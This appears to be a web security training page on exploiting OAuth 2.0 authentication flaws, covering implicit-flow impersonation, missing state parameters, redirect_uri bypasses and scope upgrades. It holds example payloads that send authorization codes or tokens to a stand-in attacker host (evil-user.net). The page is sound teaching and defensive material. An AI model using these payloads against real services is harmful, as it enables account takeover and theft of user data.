

OAuth 2.0 authentication vulnerabilities
While browsing the web, you've almost certainly come across sites that let you log in using your social media account. The chances are that this feature is built using the popular OAuth 2.0 framework. OAuth 2.0 is highly interesting for attackers because it is both extremely common and inherently prone to implementation mistakes. This can result in a number of vulnerabilities, allowing attackers to obtain sensitive user data and potentially bypass authentication completely.
In this section, we'll teach you how to identify and exploit some of the key vulnerabilities found in OAuth 2.0 authentication mechanisms. Don't worry if you're not too familiar with OAuth authentication - we've provided plenty of background information to help you understand the key concepts you'll need. We'll also explore some vulnerabilities in OAuth's OpenID Connect extension. Finally, we've included some guidance on how to protect your own applications against these kinds of attacks.
This topic was written in collaboration with PortSwigger Research, alongside the paper Hidden OAuth Attack Vectors.

Labs
If you're already familiar with the basic concepts behind OAuth vulnerabilities and just want to practice exploiting them on some realistic, deliberately vulnerable targets, you can access all of the labs in this topic from the link below.
What is OAuth?
OAuth is a commonly used authorization framework that enables websites and web applications to request limited access to a user's account on another application. Crucially, OAuth allows the user to grant this access without exposing their login credentials to the requesting application. This means users can fine-tune which data they want to share rather than having to hand over full control of their account to a third party.
The basic OAuth process is widely used to integrate third-party functionality that requires access to certain data from a user's account. For example, an application might use OAuth to request access to your email contacts list so that it can suggest people to connect with. However, the same mechanism is also used to provide third-party authentication services, allowing users to log in with an account that they have with a different website.
Note
Although OAuth 2.0 is the current standard, some websites still use the legacy version 1a. OAuth 2.0 was written from scratch rather than being developed directly from OAuth 1.0. As a result, the two are very different. Please be aware that the term "OAuth" refers exclusively to OAuth 2.0 throughout these materials.
How does OAuth 2.0 work?
OAuth 2.0 was originally developed as a way of sharing access to specific data between applications. It works by defining a series of interactions between three distinct parties, namely a client application, a resource owner, and the OAuth service provider.
- Client application - The website or web application that wants to access the user's data.
- Resource owner - The user whose data the client application wants to access.
- OAuth service provider - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.
There are numerous different ways that the actual OAuth process can be implemented. These are known as OAuth "flows" or "grant types". In this topic, we'll focus on the "authorization code" and "implicit" grant types as these are by far the most common. Broadly speaking, both of these grant types involve the following stages:
- The client application requests access to a subset of the user's data, specifying which grant type they want to use and what kind of access they want.
- The user is prompted to log in to the OAuth service and explicitly give their consent for the requested access.
- The client application receives a unique access token that proves they have permission from the user to access the requested data. Exactly how this happens varies significantly depending on the grant type.
- The client application uses this access token to make API calls fetching the relevant data from the resource server.
Before learning how OAuth is used for authentication, it's important to understand the fundamentals of this basic OAuth process. If you're completely new to OAuth, we recommend familiarizing yourself with the details of both of the grant types we're going to cover before reading further.
Read more
OAuth authentication
Although not originally intended for this purpose, OAuth has evolved into a means of authenticating users as well. For example, you're probably familiar with the option many websites provide to log in using your existing social media account rather than having to register with the website in question. Whenever you see this option, there's a good chance it is built on OAuth 2.0.
For OAuth authentication mechanisms, the basic OAuth flows remain largely the same; the main difference is how the client application uses the data that it receives. From an end-user perspective, the result of OAuth authentication is something that broadly resembles SAML-based single sign-on (SSO). In these materials, we'll focus exclusively on vulnerabilities in this SSO-like use case.
OAuth authentication is generally implemented as follows:
- The user chooses the option to log in with their social media account. The client application then uses the social media site's OAuth service to request access to some data that it can use to identify the user. This could be the email address that is registered with their account, for example.
-
After receiving an access token, the client application requests this data from the resource server, typically from a dedicated
/userinfoendpoint. - Once it has received the data, the client application uses it in place of a username to log the user in. The access token that it received from the authorization server is often used instead of a traditional password.
You can see a simple example of how this looks in the following lab. Just complete the "Log in with social media" option while proxying traffic through Burp, then study the series of OAuth interactions in the proxy history. You can log in using the credentials wiener:peter. Note that this implementation is deliberately vulnerable - we'll teach you how to exploit this later.
How do OAuth authentication vulnerabilities arise?
OAuth authentication vulnerabilities arise partly because the OAuth specification is relatively vague and flexible by design. Although there are a handful of mandatory components required for the basic functionality of each grant type, the vast majority of the implementation is completely optional. This includes many configuration settings that are necessary for keeping users' data secure. In short, there's plenty of opportunity for bad practice to creep in.
One of the other key issues with OAuth is the general lack of built-in security features. The security relies almost entirely on developers using the right combination of configuration options and implementing their own additional security measures on top, such as robust input validation. As you've probably gathered, there's a lot to take in and this is quite easy to get wrong if you're inexperienced with OAuth.
Depending on the grant type, highly sensitive data is also sent via the browser, which presents various opportunities for an attacker to intercept it.
Identifying OAuth authentication
Recognizing when an application is using OAuth authentication is relatively straightforward. If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
The most reliable way to identify OAuth authentication is to proxy your traffic through Burp and check the corresponding HTTP messages when you use this login option. Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the /authorization endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the client_id, redirect_uri, and response_type parameters. For example, an authorization request will usually look something like this:
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.comRecon
Doing some basic recon of the OAuth service being used can point you in the right direction when it comes to identifying vulnerabilities.
It goes without saying that you should study the various HTTP interactions that make up the OAuth flow - we'll go over some specific things to look out for later. If an external OAuth service is used, you should be able to identify the specific provider from the hostname to which the authorization request is sent. As these services provide a public API, there is often detailed documentation available that should tell you all kinds of useful information, such as the exact names of the endpoints and which configuration options are being used.
Once you know the hostname of the authorization server, you should always try sending a GET request to the following standard endpoints:
-
/.well-known/oauth-authorization-server -
/.well-known/openid-configuration
These will often return a JSON configuration file containing key information, such as details of additional features that may be supported. This will sometimes tip you off about a wider attack surface and supported features that may not be mentioned in the documentation.
Exploiting OAuth authentication vulnerabilities
Vulnerabilities can arise in the client application's implementation of OAuth as well as in the configuration of the OAuth service itself. In this section, we'll show you how to exploit some of the most common vulnerabilities in both of these contexts.
- Vulnerabilities in the client application
- Vulnerabilities in the OAuth service
Vulnerabilities in the OAuth client application
Client applications will often use a reputable, battle-hardened OAuth service that is well protected against widely known exploits. However, their own side of the implementation may be less secure.
As we've already mentioned, the OAuth specification is relatively loosely defined. This is especially true with regard to the implementation by the client application. There are a lot of moving parts in an OAuth flow, with many optional parameters and configuration settings in each grant type, which means there's plenty of scope for misconfigurations.
Improper implementation of the implicit grant type
Due to the dangers introduced by sending access tokens via the browser, the implicit grant type is mainly recommended for single-page applications. However, it is also often used in classic client-server web applications because of its relative simplicity.
In this flow, the access token is sent from the OAuth service to the client application via the user's browser as a URL fragment. The client application then accesses the token using JavaScript. The trouble is, if the application wants to maintain the session after the user closes the page, it needs to store the current user data (normally a user ID and the access token) somewhere.
To solve this problem, the client application will often submit this data to the server in a POST request and then assign the user a session cookie, effectively logging them in. This request is roughly equivalent to the form submission request that might be sent as part of a classic, password-based login. However, in this scenario, the server does not have any secrets or passwords to compare with the submitted data, which means that it is implicitly trusted.
In the implicit flow, this POST request is exposed to attackers via their browser. As a result, this behavior can lead to a serious vulnerability if the client application doesn't properly check that the access token matches the other data in the request. In this case, an attacker can simply change the parameters sent to the server to impersonate any user.
Flawed CSRF protection
Although many components of the OAuth flows are optional, some of them are strongly recommended unless there's an important reason not to use them. One such example is the state parameter.
The state parameter should ideally contain an unguessable value, such as the hash of something tied to the user's session when it first initiates the OAuth flow. This value is then passed back and forth between the client application and the OAuth service as a form of CSRF token for the client application. Therefore, if you notice that the authorization request does not send a state parameter, this is extremely interesting from an attacker's perspective. It potentially means that they can initiate an OAuth flow themselves before tricking a user's browser into completing it, similar to a traditional CSRF attack. This can have severe consequences depending on how OAuth is being used by the client application.
Consider a website that allows users to log in using either a classic, password-based mechanism or by linking their account to a social media profile using OAuth. In this case, if the application fails to use the state parameter, an attacker could potentially hijack a victim user's account on the client application by binding it to their own social media account.
Note that if the site allows users to log in exclusively via OAuth, the state parameter is arguably less critical. However, not using a state parameter can still allow attackers to construct login CSRF attacks, whereby the user is tricked into logging in to the attacker's account.
Leaking authorization codes and access tokens
Perhaps the most infamous OAuth-based vulnerability is when the configuration of the OAuth service itself enables attackers to steal authorization codes or access tokens associated with other users' accounts. By stealing a valid code or token, the attacker may be able to access the victim's data. Ultimately, this can completely compromise their account - the attacker could potentially log in as the victim user on any client application that is registered with this OAuth service.
Depending on the grant type, either a code or token is sent via the victim's browser to the /callback endpoint specified in the redirect_uri parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled redirect_uri.
In the case of the authorization code flow, an attacker can potentially steal the victim's code before it is used. They can then send this code to the client application's legitimate /callback endpoint (the original redirect_uri) to get access to the user's account. In this scenario, an attacker does not even need to know the client secret or the resulting access token. As long as the victim has a valid session with the OAuth service, the client application will simply complete the code/token exchange on the attacker's behalf before logging them in to the victim's account.
Note that using state or nonce protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
More secure authorization servers will require a redirect_uri parameter to be sent when exchanging the code as well. The server can then check whether this matches the one it received in the initial authorization request and reject the exchange if not. As this happens in server-to-server requests via a secure back-channel, the attacker is not able to control this second redirect_uri parameter.
Flawed redirect_uri validation
Due to the kinds of attacks seen in the previous lab, it is best practice for client applications to provide a whitelist of their genuine callback URIs when registering with the OAuth service. This way, when the OAuth service receives a new request, it can validate the redirect_uri parameter against this whitelist. In this case, supplying an external URI will likely result in an error. However, there may still be ways to bypass this validation.
When auditing an OAuth flow, you should try experimenting with the redirect_uri parameter to understand how it is being validated. For example:
- Some implementations allow for a range of subdirectories by checking only that the string starts with the correct sequence of characters i.e. an approved domain. You should try removing or adding arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
-
If you can append extra values to the default
redirect_uriparameter, you might be able to exploit discrepancies between the parsing of the URI by the different components of the OAuth service. For example, you can try techniques such as:https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/If you're not familiar with these techniques, we recommend reading our content on how to circumvent common SSRF defences and CORS.
-
You may occasionally come across server-side parameter pollution vulnerabilities. Just in case, you should try submitting duplicate
redirect_uriparameters as follows:https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net -
Some servers also give special treatment to
localhostURIs as they're often used during development. In some cases, any redirect URI beginning withlocalhostmay be accidentally permitted in the production environment. This could allow you to bypass the validation by registering a domain name such aslocalhost.evil-user.net.
It is important to note that you shouldn't limit your testing to just probing the redirect_uri parameter in isolation. In the wild, you will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the response_mode from query to fragment can sometimes completely alter the parsing of the redirect_uri, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the web_message response mode is supported, this often allows a wider range of subdomains in the redirect_uri.
Stealing codes and access tokens via a proxy page
Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the redirect_uri. However, that doesn't mean it's time to give up.
By this stage, you should have a relatively good understanding of which parts of the URI you can tamper with. The key now is to use this knowledge to try and access a wider attack surface within the client application itself. In other words, try to work out whether you can change the redirect_uri parameter to point to any other pages on a whitelisted domain.
Try to find ways that you can successfully access different subdomains or paths. For example, the default URI will often be on an OAuth-specific path, such as /oauth/callback, which is unlikely to have any interesting subdirectories. However, you may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:
https://client-app.com/oauth/callback/../../example/pathMay be interpreted on the back-end as:
https://client-app.com/example/pathOnce you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token. For the authorization code flow, you need to find a vulnerability that gives you access to the query parameters, whereas for the implicit grant type, you need to extract the URL fragment.
One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.
Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.
In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. Some good examples include:
-
Dangerous JavaScript that handles query parameters and URL fragments
For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain. -
XSS vulnerabilities
Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As theHTTPOnlyattribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability. -
HTML injection vulnerabilities
In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point theredirect_uriparameter to a page on which you can inject your own HTML content, you might be able to leak the code via theRefererheader. For example, consider the followingimgelement:<img src="evil-user.net">. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in theRefererheader of the request, including the query string.
Flawed scope validation
In any OAuth flow, the user must approve the requested access based on the scope defined in the authorization request. The resulting token allows the client application to access only the scope that was approved by the user. But in some cases, it may be possible for an attacker to "upgrade" an access token (either stolen or obtained using a malicious client application) with extra permissions due to flawed validation by the OAuth service. The process for doing this depends on the grant type.
Scope upgrade: authorization code flow
With the authorization code grant type, the user's data is requested and sent via secure server-to-server communication, which a third-party attacker is typically not able to manipulate directly. However, it may still be possible to achieve the same result by registering their own client application with the OAuth service.
For example, let's say the attacker's malicious client application initially requested access to the user's email address using the openid email scope. After the user approves this request, the malicious client application receives an authorization code. As the attacker controls their client application, they can add another scope parameter to the code/token exchange request containing the additional profile scope:
POST /token
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profileIf the server does not validate this against the scope from the initial authorization request, it will sometimes generate an access token using the new scope and send this to the attacker's client application:
{
"access_token": "z0y9x8w7v6u5",
"token_type": "Bearer",
"expires_in": 3600,
"scope": "openid email profile",
…
}The attacker can then use their application to make the necessary API calls to access the user's profile data.
Scope upgrade: implicit flow
For the implicit grant type, the access token is sent via the browser, which means an attacker can steal tokens associated with innocent client applications and use them directly. Once they have stolen an access token, they can send a normal browser-based request to the OAuth service's /userinfo endpoint, manually adding a new scope parameter in the process.
Ideally, the OAuth service should validate this scope value against the one that was used when generating the token, but this isn't always the case. As long as the adjusted permissions don't exceed the level of access previously granted to this client application, the attacker can potentially access additional data without requiring further approval from the user.
Unverified user registration
When authenticating users via OAuth, the client application makes the implicit assumption that the information stored by the OAuth provider is correct. This can be a dangerous assumption to make.
Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider.
Extending OAuth with OpenID Connect
When used for authentication, OAuth is often extended with an OpenID Connect layer, which provides some additional features related to identifying and authenticating users. For a detailed description of these features, and some more labs related to vulnerabilities that they can introduce, see our OpenID Connect topic.
Read more
Preventing OAuth authentication vulnerabilities
For developers, we've provided some guidance on how you can avoid introducing these vulnerabilities into your own websites and applications.